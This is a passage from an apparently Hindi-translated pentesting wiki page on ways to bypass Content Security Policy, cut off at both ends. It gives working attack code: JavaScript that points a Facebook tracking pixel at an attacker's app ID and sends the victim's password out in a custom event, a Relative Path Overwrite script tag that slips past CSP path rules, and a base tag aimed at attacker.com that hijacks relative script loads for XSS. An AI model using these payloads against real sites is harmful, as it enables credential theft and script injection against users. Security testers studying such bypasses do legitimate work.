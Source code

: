 फिर, पीड़ित पक्ष पर, आप Facebook ट्रैकिंग पिक्सेल को हमलावर के Facebook डेवलपर खाता ऐप-आईडी की ओर इंगित करने और इस तरह का एक कस्टम इवेंट जारी करने के लिए निम्नलिखित कोड निष्पादित करते हैं:
```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```
जैसे कि पिछले तालिका में निर्दिष्ट अन्य सात तृतीय-पक्ष डोमेन के लिए, उन्हें दुरुपयोग करने के कई अन्य तरीके हैं। अन्य तृतीय-पक्ष दुरुपयोगों के बारे में अतिरिक्त स्पष्टीकरण के लिए पहले के [ब्लॉग पोस्ट](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) को देखें।

### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

पथ प्रतिबंधों को बायपास करने के लिए उपरोक्त पुनर्निर्देशन के अलावा, एक और तकनीक है जिसे Relative Path Overwrite (RPO) कहा जाता है, जिसे कुछ सर्वरों पर उपयोग किया जा सकता है।

उदाहरण के लिए, यदि CSP पथ `https://example.com/scripts/react/` की अनुमति देता है, तो इसे निम्नलिखित तरीके से बायपास किया जा सकता है:
```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```
ब्राउज़र अंततः `https://example.com/scripts/angular/angular.js` को लोड करेगा।

यह काम करता है क्योंकि ब्राउज़र के लिए, आप `https://example.com/scripts/react/` के तहत स्थित `..%2fangular%2fangular.js` नामक फ़ाइल को लोड कर रहे हैं, जो CSP के अनुरूप है।

∑, वे इसे डिकोड करेंगे, प्रभावी रूप से `https://example.com/scripts/react/../angular/angular.js` का अनुरोध करते हुए, जो `https://example.com/scripts/angular/angular.js` के बराबर है।

**ब्राउज़र और सर्वर के बीच URL व्याख्या में इस असंगति का लाभ उठाकर, पथ नियमों को बायपास किया जा सकता है।**

समाधान यह है कि सर्वर-साइड पर `%2f` को `/` के रूप में नहीं माना जाए, जिससे ब्राउज़र और सर्वर के बीच व्याख्या में निरंतरता सुनिश्चित हो सके और इस समस्या से बचा जा सके।

ऑनलाइन उदाहरण:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Iframes JS निष्पादन

{% content-ref url="../xss-cross-site-scripting/iframes-in-xss-and-csp.md" %}
[iframes-in-xss-and-csp.md](../xss-cross-site-scripting/iframes-in-xss-and-csp.md)
{% endcontent-ref %}

### गायब **base-uri**

यदि **base-uri** निर्देश गायब है तो आप इसका दुरुपयोग कर सकते हैं [**dangling markup injection**](../dangling-markup-html-scriptless-injection/) करने के लिए।

इसके अलावा, यदि **पृष्ठ एक सापेक्ष पथ का उपयोग करके स्क्रिप्ट लोड कर रहा है** (जैसे `<script src="/js/app.js">`) एक **Nonce** का उपयोग करते हुए, आप **base** **tag** का दुरुपयोग कर सकते हैं ताकि यह **आपके अपने सर्वर से स्क्रिप्ट लोड करे जिससे XSS प्राप्त हो।**\
यदि कमजोर पृष्ठ **httpS** के साथ लोड होता है, तो बेस में httpS URL का उपयोग करें।
```html
<base href="https://www.attacker.com/">
```
### AngularJS घटनाएँ
